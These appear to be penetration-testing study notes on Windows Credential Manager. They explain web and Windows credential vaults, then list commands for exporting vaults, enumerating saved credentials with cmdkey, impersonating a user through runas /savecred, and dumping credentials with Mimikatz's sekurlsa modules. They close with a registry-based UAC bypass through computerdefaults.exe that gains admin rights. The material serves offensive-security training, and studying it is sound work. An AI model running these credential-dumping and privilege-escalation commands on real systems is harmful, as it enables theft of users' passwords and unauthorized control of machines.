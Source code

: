 
Credential Manager is the user-facing feature/API while the actual encrypted stores are the vault/locker folders.

Web credentials - credentials associated with website and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge

Windows Credentials - Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.

Export Windows Vaults to .crd files
```cmd-session
rundll32 keymgr.dll,KRShowKeyMgr
```

##### cmdkey to enumerate stored credentials
```cmd-session
cmdkey /list
```

Target - resource or account name the credential is for
Type - the kind of credential
User 
Persistence - survive reboots

##### Impersonate user
```cmd-session
runas /savecred /user:SRV01\mcharles cmd
```

Extracting credentials with Mimikatz
```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```
```cmd-session
sekurlsa::credman
```


Another module:
```cmd-session
sekurlsa::logonpasswords
```
##### Gain admin privileges
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe